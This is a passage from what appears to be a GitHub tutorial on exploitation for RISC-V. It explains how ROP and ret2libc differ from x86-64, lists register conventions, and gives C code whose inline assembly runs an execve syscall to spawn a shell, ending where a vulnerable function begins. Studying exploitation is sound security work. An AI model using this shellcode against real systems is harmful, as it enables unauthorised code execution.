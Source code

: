 Once the exploit is run, in order to keep the shell open, we can use the `(cat - )` command in pipe with the exploit.

![32 bit stack ret2libc](/img/exploit_riscv.png)

## ROP on RISCV64 (sifive u74-mc)
A very useful guide that explains differences between x86_64 and RiscV principles is [here](https://www.bogdandeac.com/return-oriented-programming-on-risc-v/).

RISC-V is a RISC (Reduced Instruction Set Computer) based on load-store principle. That means that the only instructions that can access off-chip memory are load and store instructions. All instructions have fixed width and must be naturally aligned. Also, RISC-V does not have stack manipulation instructions, like x86–64 or ARM. As we have seen before, x86–64 has POP and RET instructions that updates the value of the stack pointer to point to the next value on the stack. On the other hand, RISC-V uses a sequence of lw (load word) and addi (add immediate) instructions to load a value from the stack and to update the stack pointer. Also, RISC-V does not have a dedicated instruction for return. The ret is a pseudo-instruction that is expanded to jalr zero, 0(ra), which sets the program counter to ra + 0 and saves the previous program counter’s value plus four to register zero, which is hardwired to zero. This implies that the return value must be copied from the stack into ra before returning.

RV32I (Base Integer Instruction Set, 32-bit) has 32 general purpose registers. Some important aspects of registers’ organization are:

    x0/zero is hardwired to zero
    x1/ra holds the return address from a function
    x2/sp holds the stack pointer
    x10-x17/a0-a7 hold arguments for functions
    x8-9, x18-27/s0-s11 (saved registers) preserve their values across function calls; any function that uses the saved registers must restore their original value before returning

## Testing ASM inline code: 

### Getting a shell from a simple function  
With the following **ASM** snippet we can insert inside the C code some Assembly instructions in order to craft the exploit. We need to manipulate the `A0 register` to store the argument of the system() function. At the end we have the `execve()` system call that runs with the parameters of the registers `A0-A7`
The following ASM snippet is inspired by https://ctftime.org/writeup/33544.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int test_empty() {

//  Execution of /bin/bash
    asm ("li s1, 0x68732f6e69622f");   //hex of string /bin/bash
    asm ("sd s1, -16(sp)");            //store S1 on stack
    asm ("addi a0,sp,-16");            //A0 is the syscall argument
    asm ("slt a1,zero,-1");            //A1 is zero (not used)
    asm ("slt a2,zero,-1");            //A2 is zero (not used)
    asm ("li a7, 221");                //loading the execve system call
    asm ("ecall");                     //syscall using previous arguments
    return 1;
}

void vulnerable_function(char* string) {
```